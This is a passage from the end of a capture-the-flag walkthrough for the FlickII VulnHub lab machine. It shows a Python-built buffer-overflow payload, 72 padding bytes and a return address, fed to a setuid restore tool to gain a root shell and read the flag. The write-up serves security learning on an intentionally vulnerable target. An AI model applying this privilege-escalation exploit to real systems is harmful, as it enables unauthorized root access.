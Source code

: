 Let us use python to generate the payload encoded in little endian:

    :::text
    [sean@fII storage]$ python -c 'print "A"*72 + "\x71\x1f\x40"'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq

You may need to use another terminal which would not mess up with your input as
urxvt did. I used tilda for this one. We just need to copy the payload when
choosing the output directory for the restore program:

    :::text
    [sean@fII storage]$ /usr/local/bin/restore
    /usr/local/bin/restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    /tmp/
    Path is: /tmp/
    Enter the output directory: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAq
    Output directory is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

And it got us a root shell from where we can get the flag:

    [root@fII storage]# id
    uid=0(root) gid=0(root) groups=0(root),1001(bryan),1002(sean)

    root@fII root]# cat flag

      █████▒██▓     ██▓ ▄████▄   ██ ▄█▀ ██▓ ██▓
    ▓██   ▒▓██▒    ▓██▒▒██▀ ▀█   ██▄█▒ ▓██▒▓██▒
    ▒████ ░▒██░    ▒██▒▒▓█    ▄ ▓███▄░ ▒██▒▒██▒
    ░▓█▒  ░▒██░    ░██░▒▓▓▄ ▄██▒▓██ █▄ ░██░░██░
    ░▒█░   ░██████▒░██░▒ ▓███▀ ░▒██▒ █▄░██░░██░
    ▒ ░   ░ ▒░▓  ░░▓  ░ ░▒ ▒  ░▒ ▒▒ ▓▒░▓  ░▓
    ░     ░ ░ ▒  ░ ▒ ░  ░  ▒   ░ ░▒ ▒░ ▒ ░ ▒ ░
    ░ ░     ░ ░    ▒ ░░        ░ ░░ ░  ▒ ░ ▒ ░
              ░  ░ ░  ░ ░      ░  ░    ░   ░
                      ░

    You have successfully completed FlickII!

    I hope you learnt as much as I did while
    making it! Any comments/suggestions etc,
    feel free to catch me on freenode in
    #vulnhub or on twitter @leonjza

## Conclusion

This was a really great challange! The android part was a really new to me. The
exploitation part was very interesting!.

Many thanks to TurboSmouem for the challange and as usual thanks to vulnhub.

